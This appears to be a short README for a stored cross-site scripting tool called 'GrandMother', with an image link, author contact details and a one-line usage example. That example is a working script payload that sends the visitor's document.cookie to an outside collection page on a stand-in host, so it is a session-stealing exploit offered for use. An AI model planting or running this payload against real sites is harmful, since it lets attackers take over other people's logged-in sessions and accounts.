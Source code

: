 # GrandMother
<b>Session hijacking script from Cross-Site Scripting (XSS) Stored.</b>
# Use:
<code><script>location.href="http://seusite.com/grandmother.php?cookie="+document.cookie</script></code>
# Contato:
- Twitter: @samueltux
- E-mail: 0x53oficial@gmail.com

